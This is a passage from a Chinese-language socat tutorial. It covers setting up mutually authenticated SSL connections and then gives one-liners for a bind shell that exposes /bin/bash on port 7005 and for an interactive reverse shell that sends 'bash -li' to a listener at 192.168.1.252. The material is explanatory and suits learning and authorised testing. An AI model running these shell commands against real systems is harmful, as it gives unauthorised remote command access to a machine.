 服务端证书生成完成后，复制信任证书 server.crt 到 SSL 客户端所在的主机上。

2. 生成客户端证书

```
# 为客户端证书取一个不同的文件名
$ FILENAME=client
```

重复上述服务端生成证书的流程。然后复制 client.pem 到 SSL 客户端主机，复制 client.crt 到服务端主机。至此完成了证书交换，服务端有 server.pem、client.crt 两个文件，客户端有 client.pem 、server.crt 两个文件。

其次我们需要建立 Openssl 服务端，在服务端我们不再用 tcp-listen (tcp-l) ，而用 openssl-listen (ssl-l) 。cert 参数告诉 Socat 包含证书和私钥的文件，cafile 参数指向客户端的证书文件。如果客户端能提供相关联的私钥，我们则认为该连接是可靠的。

```
$ socat openssl-listen:4433,reuseaddr,cert=server.pem,cafile=client.crt echo
```

运行这个命令后，Socat 会在 4433 端口监听，并要求客户端进行身份验证。

最后在客户端建立一个加密的链接，用 openssl-connect 或者 ssl 替换你的 tcp-connect 或 tcp 地址关键字，然后添加 cert 和 cafile 选项。

```
$ socat stdio openssl-connect:server.domain.org:4433,cert=client.pem,cafile=server.crt
test
test
```

这个命令用来建立一个到服务程序的安全的连接。如果服务端和客户端成功建立连接后，会回显在客户端输入的内容。

- 建立一个正向 Shell

1. 服务端

```
# 在服务端 7005 端口建立一个 Shell。
$ socat TCP-LISTEN:7005,fork,reuseaddr EXEC:/bin/bash,pty,stderr
或者
$ socat TCP-LISTEN:7005,fork,reuseaddr system:bash,pty,stderr
```

2. 客户端

```
# 连接到服务器的 7005 端口，即可获得一个 Shell。readline 是 GNU 的命令行编辑器，具有历史功能。
$ socat readline tcp:127.0.0.1:7005
```

- 反弹一个交互式的 Shell

当有主机连接服务端的 7005 端口时，将会发送客户端的 Shell 给服务端。

1. 服务端

```
$ socat -,raw,echo=0 tcp-listen:7005
```

2. 客户端

```
$ socat tcp-connect:192.168.1.252:7005 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
